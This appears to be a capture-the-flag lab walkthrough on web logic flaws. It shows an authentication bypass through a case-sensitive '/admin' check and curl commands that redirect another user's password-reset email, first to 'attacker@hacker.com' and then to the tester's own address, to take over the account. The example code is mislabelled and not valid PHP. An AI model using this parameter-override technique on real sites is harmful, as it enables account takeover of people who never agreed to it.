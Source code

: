 ## Introduction
A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.

## Logic Flaw Example

```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
The code presents a logic flaw because an unauthenticated user requesting **/adMin** will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

## Logic Flaw Practical
We're going to examine the **Reset Password** function of the Acme IT Support website ([http://10.10.66.70/customers/reset](http://10.10.66.70/customers/reset)).

### First we're requesting with robert username using curl:
```python
user@tryhackme$ curl 'http://10.10.161.243/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```python
user@tryhackme$ curl 'http://10.10.161.243/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}`**@customer.acmeitsupport.thm**  

Now rerunning **Curl Request 2** but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

```python
user@tryhackme:~$ curl 'http://10.10.161.243/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```